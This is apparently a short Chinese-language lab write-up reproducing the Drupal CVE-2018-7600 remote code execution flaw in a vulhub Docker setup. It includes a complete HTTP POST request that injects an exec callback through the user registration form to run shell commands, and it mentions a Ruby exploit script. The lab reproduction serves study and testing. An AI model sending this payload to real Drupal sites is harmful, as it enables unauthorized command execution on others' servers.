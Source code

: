 漏洞环境使用vulhub

0x00 环境搭建：  
切换到对应目录下  
docker-compose build  
docker-compose up -d  
访问http://172.16.35.128:8080/  
配置网站，选择english、standard、sqlite，然后配置帐号密码等信息  
网站配置完成

0x01 漏洞利用  
vulhub下的漏洞利用代码  
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
能执行命令id、pwd，但执行命令ls后只能显示部分文件，且不能执行带有空格的命令

0x03 漏洞利用  
改用另一款ruby版的漏洞利用程序cve-2018-7600.rb，执命令ls后，能显示全部文件，且能执行带有空格的命令
